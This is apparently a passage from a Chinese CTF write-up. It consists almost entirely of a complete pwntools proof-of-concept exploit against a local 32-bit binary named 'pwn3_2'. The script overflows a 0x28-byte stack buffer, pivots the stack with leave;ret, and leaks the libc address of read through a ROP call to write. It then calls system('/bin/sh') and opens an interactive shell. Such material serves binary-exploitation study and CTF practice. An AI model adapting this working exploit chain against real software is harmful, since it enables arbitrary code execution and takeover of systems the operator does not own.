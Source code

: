 下面是完整的poc，可以用gdb调试调试有助于理解。

```python
from pwn import *
context.log_level = 'debug'

#overflow_length = 0x28

def write(addr,data):
	pay = 'a'*0x28 + p32(addr + 0x28) + p32(code_read)
	cn.send(pay)
	cn.recv()
	pay = data.ljust(0x28,'\xff') + p32(0x0804A000 + 0x400) + p32(code_read)
	cn.send(pay)
	cn.recv()

def writeall(addr,data):
	n = len(data)//0xc
	for i in range(n):
		write(addr +i*0xc,data[i*0xc:(i+1)*0xc])
	i += 1
	write(addr+i*0xc,data[i*0xc:])

cn = process('./pwn3_2')
bin = ELF('./pwn3_2')
libc = ELF('/lib32/libc.so.6')

p3ret = 0x080484e9
code_read = 0x08048444
leave_ret = 0x08048468

pay = ''
pay += p32(bin.symbols['write']) + p32(p3ret) + p32(1) + p32(bin.got['read']) + p32(4)
pay += p32(bin.symbols['main'])

writeall(0x0804A000 + 0x200,pay)

cn.send('a'*0x28 + p32(0x0804A000 + 0x200 -4) + p32(leave_ret))
cn.recv(0x30)
p_read = u32(cn.recv(4))

p_system = p_read - libc.symbols['read'] + libc.symbols['system']
p_binsh = p_read - libc.symbols['read'] + libc.search('/bin/sh').next()
print hex(p_system),hex(p_binsh)

pay = ''
pay += p32(p_system) + 'bbbb' + p32(p_binsh)

write(0x0804A000 + 0x300,pay)
cn.send('a'*0x28 + p32(0x0804A000 + 0x300 -4) + p32(leave_ret))
cn.recv()
cn.interactive()
```
